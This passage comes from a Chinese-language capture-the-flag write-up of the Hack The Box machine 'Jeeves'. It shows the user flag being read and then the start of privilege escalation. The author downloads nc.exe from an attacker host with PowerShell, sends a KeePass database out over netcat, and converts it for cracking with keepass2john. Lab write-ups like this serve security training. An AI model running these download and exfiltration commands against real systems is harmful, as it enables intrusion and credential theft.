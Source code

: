 ```

拿到user flag
```
PS C:\Users\kohsuke\desktop> ls


    Directory: C:\Users\kohsuke\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        11/3/2017  11:22 PM             32 user.txt                                                              


PS C:\Users\kohsuke\desktop> type user.txt
e3232272596...

```

# 提权

## 提权方法一：keepass + pth

找到一个keepass文件
```
PS C:\Users\kohsuke\Documents> ls


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              



```


传nc到靶机
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.4/nc.exe','C:\Users\kohsuke\Documents\nc.exe')"
```

接收
```
┌──(root💀kali)-[~/htb/Jeeves]
└─# nc -lvp 443 > CEH.kdbx                                                                            1 ⨯
listening on [any] 443 ...
connect to [10.10.16.4] from 10.10.10.63 [10.10.10.63] 49686
```

发送
```
PS C:\Users\kohsuke\Documents> cmd.exe /C nc.exe 10.10.16.4 443<CEH.kdbx
```

转成john可以识别的格式
```
┌──(root💀kali)-[~/htb/Jeeves]
└─# keepass2john CEH.kdbx >keep.hash
                                                                                                          